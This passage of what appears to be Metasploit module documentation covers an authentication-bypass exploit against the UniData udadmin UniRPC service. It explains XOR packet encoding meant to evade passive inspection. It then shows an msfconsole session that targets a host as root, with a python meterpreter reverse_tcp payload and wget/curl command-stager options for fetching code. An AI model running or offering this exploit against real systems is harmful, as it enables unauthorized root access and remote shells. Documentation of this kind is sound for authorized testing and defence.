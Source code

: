 In the UniRPC header, there is a bit that enables packet encoding. If set, the
packet body is XOR'd with either 1 or 2, depending on another header field.
While it's not strong encoding by any means, it does hide the exploit from
passive inspection. We set the encoding the XOR'ing with 2 by default.

## Scenarios

### Version 8.2.4 with root user, unix command target

```
msf > use exploit/linux/misc/unidata_udadmin_auth_bypass
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST ens160
LHOST => ens160

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIDATA_VERSION 8.2.4
[-] Unknown datastore option: UNIDATA_VERSION.

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
VERBOSE => true

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > show options

Module options (exploit/linux/misc/unidata_udadmin_auth_bypass):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RHOSTS           10.0.0.198       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            31438            yes       The target port (TCP)
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   UNIRPC_GID       1000             yes       gid to authenticate with (must not be 0, does not need to correspond to the username)
   UNIRPC_UID       0                yes       Linux uid to authenticate with (must correspond to the username)
   UNIRPC_USERNAME  root             yes       Linux username to authenticate with (must match the uid)
   URIPATH                           no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  ens160           yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```